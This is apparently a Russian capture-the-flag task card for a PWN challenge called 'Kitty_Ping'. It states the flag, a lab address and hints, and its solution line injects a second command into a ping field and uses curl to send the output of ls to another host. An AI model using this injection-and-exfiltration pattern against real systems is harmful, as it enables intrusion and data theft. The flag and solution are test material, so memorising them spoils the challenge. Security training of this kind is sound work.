 # Kitty_Ping

## Секция
- PWN

## Разбалловка
150

## Флаг
kaiCTF{d20011b04785051a341401a1fbaf93b4}

## Смысл задания
Участник получает точку входа ввида

<code bash> 192.168.93.226:10020</code><br>


Суть в том, что сервер уязвим к 2м видам атак - RCE, SSRF.
Участник имеет возможность исполнять любой код, однако есть фильтр, какие команды можно выполнять. Результат выполнения команд можно лишь получить, если иметь какой-либо узел, и указать его в ввиде цели.


<code bash> localhost & curl 192.168.93.226:10000 -d "$(ls)"</bash>

## Описание задания
Убежища имеют свою линию связи! Мы нашли терминал бывшего Смотрителя, которого съели яогаи. Хмм, похоже он что-то сюда вводил. Единственное, что мы знаем, что он каким-то образом мог узнавать то, что другие не собирались сообщать... 


## Подсказки
- https://stackoverflow.com/questions/27461936/system-vs-execve
- https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/
- https://xakep.ru/tag/rce/

